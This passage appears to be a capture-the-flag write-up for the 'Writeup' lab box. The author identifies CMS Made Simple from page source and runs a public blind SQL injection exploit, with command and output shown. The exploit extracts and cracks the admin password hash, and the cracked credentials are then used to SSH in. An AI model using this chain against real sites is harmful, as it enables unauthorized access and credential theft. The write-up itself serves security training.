 (Yes, I really did think I could find the solution to Writeup in the "writeup" link . . . )

The bottom of the page mentions that the site was not made with `vim`.

![](/images/writeup/image4.png)

I take this as a hint to dig into what the site was actually built with. If you look at the source code, you'll see that this page was created using "CMS Made Simple."

{% highlight html %}
<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
{% endhighlight %}

The copyright ends at 2019, so I can assume that the CMS is updated to at least the 2019 version as well. I google for __"CMS Made Simple 2019 exploit"__—and one of the first results is an [unauthenticated SQL injection exploit](https://www.exploit-db.com/exploits/46635) on the Exploit Database.

# SQL injection exploit

The script enumerates the site for a username and password hash using blind time-based SQL injection. Once the script pulls the hash, it proceeds to crack that hash with the wordlist you've passed in the command. rockyou does the trick.

{% highlight plaintext %}
root@kali:~# python exploit.py -u http://10.10.10.138/writeup --crack -w /usr/share/wordlists/rockyou.txt
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
{% endhighlight %}

The uncovered credentials __(jkr:raykayjay9)__ can be used to SSH into the box.

{% highlight plaintext %}
root@kali:~# ssh jkr@10.10.10.138
The authenticity of host '10.10.10.138 (10.10.10.138)' can't be established.
ECDSA key fingerprint is SHA256:TEw8ogmentaVUz08dLoHLKmD7USL1uIqidsdoX77oy0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.138' (ECDSA) to the list of known hosts.
jkr@10.10.10.138's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jkr@writeup:~$ 
{% endhighlight %}
